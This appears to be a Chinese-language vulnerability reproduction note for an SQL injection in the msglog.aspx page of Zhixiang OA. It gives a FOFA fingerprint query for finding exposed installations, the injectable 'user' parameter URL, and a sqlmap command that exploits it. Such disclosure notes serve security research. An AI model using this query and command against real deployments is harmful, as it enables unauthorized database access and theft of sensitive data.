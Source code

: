 # 致翔OA msglog.aspx SQL注入漏洞

## 漏洞描述

致翔OA msglog.aspx文件存在SQL注入漏洞，攻击者通过漏洞可获取敏感信息

## 漏洞影响

```
致翔OA
```

## FOFA

```
app="致翔软件-致翔OA"
```

## 漏洞复现

产品页面

![image-20220520142109952](./images/202205201421236.png)

存在漏洞的文件为 `msglog.aspx`,涉及注入的参数为 user

```
/mainpage/msglog.aspx?user=1
```

SQLMap跑一下

```
sqlmap -u http://127.0.0.1/mainpage/msglog.aspx?user=1 -p user --batch
```

![image-20220520142130999](./images/202205201421211.png)